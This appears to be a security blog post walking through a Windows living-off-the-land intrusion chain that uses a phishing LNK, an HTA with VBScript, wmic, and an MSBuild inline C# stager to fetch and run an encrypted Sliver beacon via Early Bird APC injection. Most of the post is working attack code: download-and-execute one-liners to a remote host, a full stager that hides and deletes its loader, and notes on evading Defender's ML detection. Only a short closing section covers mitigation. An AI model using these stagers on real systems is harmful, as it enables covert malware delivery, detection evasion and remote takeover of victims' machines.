




> MSBuild.exe is a double-edged sword

2025-2026 campaigns are marked with the dominance of `LOTL`, where attackers use legitimate system tools to avoid detection. Attackers have largely abandoned noisy, custom malware in favor of blending into legitimate system behavior, enabling faster, cheaper, and far stealthier operations. The result is a surge in __zero-custom-malware__ attack chains: intrusions where every stage uses trusted tools already present in the environment.  
Traditional defenses are built to catch malware artifacts like hashes, signature, or binaries. Since LOTL uses trusted binaries like powershell, RDP and more, there's nothing malicious to be flagged, making signature-based detection essentially useless in many cases.  
Windows consumer editions are the sweet spot for LOTL campaign. Unlike in enterprise environments, consumers systems typically rely on basic protections like Windows defender, which is not always tuned to catch subtle misuse of legitimate tools, and no AppLocker/WDAC by default.

:::important
This article is for educational purposes only. Do not try anything described here on a computer you do not have permission to access, it is illegal and could land you in jail.
:::

## The Execution

The attack chain starts with a LNK file delivered through phishing.

```powershell
powershell -w hidden -c "iwr http://192.168.1.99:9090/stage1.hta -o $env:TEMP\stage1.hta"; mshta.exe $env:TEMP\stage1.hta
```
The LNK file uses powershell to download the remote HTA file and uses `mshta.exe` to execute it. The HTA file runs a VBScript that downloads both the beacon and the loader and save them in the `%temp%` folder with different name. It doesn't run the loader directly, but instead uses `wmic`. The chain `mshta.exe` -> `powershell` is a signature well known by EDRs, `wmic` breaks it by making the loader appears as a child process of WmiPrvSE.exe.

```html
<script language="VBScript">
    Set shell = CreateObject("WScript.Shell")
    Set fso = CreateObject("Scripting.FileSystemObject")
    temp = fso.GetSpecialFolder(2)

    shell.Run "powershell -w hidden -ep bypass -c ""(New-Object Net.WebClient).DownloadFile('http://192.168.1.99:9090/encrypted.bin','" & temp & "\\enc.bin')""", 0, True
    shell.Run "powershell -w hidden -ep bypass -c ""(New-Object Net.WebClient).DownloadFile('http://192.168.1.99:9090/loader.exe','" & temp & "\\svc.exe')""", 0, True

    ' Execute loader - it finds encrypted.bin, decrypts, injects into explorer
    shell.Run "wmic process call create """ & temp & "\svc.exe""", 0, True
</script>
```

This is a follow up of my [last article](https://0xsolitar.github.io/posts/early-bird-apc/) on Early Bird APC. The loader is a C++ program that performs a Early Bird APC injection, the beacon is generated using Sliver and transformed into reflective shellcode using Donut before being XOR encrypted, with the exception that the loader dynamically looks for the encrypted beacon at `%temp%`. When executing, the loader got caught by Windows Defender as soon as it lands on the disk.



What's interesting here is the signature `Trojan:Win32/Bearfoos.B!ml`, this is a machine-learning (ML) based detection signature, not static ones. The loader was not detected using the traditional hash or byte-string match, what's triggering the ML model was likely the behavioral pattern: mshta.exe -> powershell.exe spawning -> PowerShell downloading a .exe to %temp% -> that .exe executing via wmic. This is where `MSBuild.exe` becomes useful as an alternative stager.

## MSBuild.exe

MSBuild.exe is designed to help software developers to compile and build applications using XML-based project files. It can execute inline C# code within the project files, it's signed and trusted by the operating system, making it an excellent tool for LOTL attack.

:::note
I highly suggest reading [this](https://cybersecuritynews.com/hackers-abuse-msbuild-lolbin/) article describing a recent campaign that uses MSBuild.exe.
:::

To locate MSBuild.exe, open __Developer Command Prompt for VS__ and type `where msbuild`.



The second one (highlighted in yellow) is the one we need. The .NET Framework MSBuild is self-contained and ships with Windows itself, while the VS BuildTools version has external DLL dependencies, this is actually the core of why it's useful as a LOLBIN. When MSBuild.exe is executed, it will automatically scans the same directory for a .csproj file and  loads it without requiring any command-line input from the user. We can test it right away by downloading a python file hosted on a python HTTP server:

```html
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003" DefaultTargets="RunInlineTask">

  <UsingTask TaskName="InlineTask" TaskFactory="CodeTaskFactory"
             AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll">
    <ParameterGroup>
      <Url ParameterType="System.String" Required="true" />
      <OutputFile ParameterType="System.String" Required="true" />
      <ResultValue ParameterType="System.String" Output="true" />
    </ParameterGroup>
    <Task>
      <Reference Include="System.Net.Http"/>
      <Using Namespace="System"/>
      <Using Namespace="System.Net.Http"/>
      <Using Namespace="System.IO"/>
      <Code Type="Fragment" Language="cs">
        <![CDATA[
          using (var client = new HttpClient())
          {
              var bytes = client.GetByteArrayAsync(Url).GetAwaiter().GetResult();
              File.WriteAllBytes(OutputFile, bytes);
              Log.LogMessage(string.Format("Downloaded {0} to {1}", Url, OutputFile),
                             MessageImportance.High);
              ResultValue = OutputFile;
          }
        ]]>
      </Code>
    </Task>
  </UsingTask>

  <Target Name="RunInlineTask">
    <InlineTask Url="http://192.168.1.115:9090/main.py" OutputFile="main.py">
      <Output TaskParameter="ResultValue" PropertyName="MyResult" />
    </InlineTask>
    <Message Text="Result: $(MyResult)" Importance="High" />
  </Target>

</Project>
```

One way we can use this in our advantage is to use the inline C# as a stager that downloads the encrypted beacon and the loader, then executes the loader which handle the Early Bird APC injection. Here's the complete program:

```html
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003" DefaultTargets="Execute">
  <UsingTask TaskName="Stager" TaskFactory="CodeTaskFactory" AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll">
    <Task>
      <Reference Include="System" />
      <Reference Include="System.Net" />
      <Code Type="Class" Language="cs">
        <![CDATA[
          using System;
          using System.Net;
          using System.IO;
          using System.Diagnostics;
          using Microsoft.Build.Framework;
          using Microsoft.Build.Utilities;

          public class Stager : Task
          {
              public override bool Execute()
              {
                  try
                  {
                      string tempPath = Path.GetTempPath();
                      string encryptedBeaconPath = Path.Combine(tempPath, "enc.bin");
                      string loaderPath = Path.Combine(tempPath, "loader.exe");

                      using (WebClient wc = new WebClient())
                      {
                          byte[] encryptedBeacon = wc.DownloadData("http://192.168.1.115:9090/encrypted.bin");
                          File.WriteAllBytes(encryptedBeaconPath, encryptedBeacon);
                      }

                      using (WebClient wc = new WebClient())
                      {
                          byte[] loader = wc.DownloadData("http://192.168.1.115:9090/loader.exe");
                          File.WriteAllBytes(loaderPath, loader);
                      }

                      Process process = new Process();
                      process.StartInfo.FileName = loaderPath;
                      process.StartInfo.WorkingDirectory = tempPath;
                      process.StartInfo.CreateNoWindow = true;
                      process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                      process.Start();

                      System.Threading.Thread.Sleep(5000);

                      try { File.Delete(loaderPath); } catch { }

                      return true;
                  }
                  catch (Exception ex)
                  {
                      return false;
                  }
              }
          }
        ]]>
      </Code>
    </Task>
  </UsingTask>
  <Target Name="Execute">
    <Stager />
  </Target>
</Project>
```
The loader and the encrypted beacon are downloaded to the `%temp%` folder, but unlike with the previous test where the HTA downloads the payloads, they didn't get flagged by Defender ML detection behavior. However, since the file arrived over HTTP, Windows applied a Mark-of-the-Web zone identifier, flagging it as internet-origin. Defender paused execution and prompted for administrator approval, redirecting to Microsoft's cloud scan explanation page. This is a meaningful speed bump for a real attacker, but not a hard stop.



:::important
This was tested against a Windows 10 22h2 machine, the response from Defender may vary across version.
:::

So the loader performed the Early Bird APC injection and executed the encrypted beacon which connect back to Sliver. One improvement we can add is, instead of using a loader, we can use C# to directly decrypt and load the beacon, this way we can avoid a naked .exe file touching the disk.




## Detection and Mitigation

This [article](https://gist.github.com/N3mes1s/b5b0b96782b9f832819d2db7c6684f84#9-detection--hunting-guidance) has a whole section on detection and hunting guidance. For everyday user, __keep Defender real-time protection ON__, The MSBuild bypass worked partly because of an overly trusting cloud scan verdict, not because Defender is broken. Also enable cloud-delivered protection and automatic sample submission, this is what triggered the cloud scan prompt. It's in Windows Security -> Virus & threat protection -> Manage settings. Without it, Defender is significantly weaker.
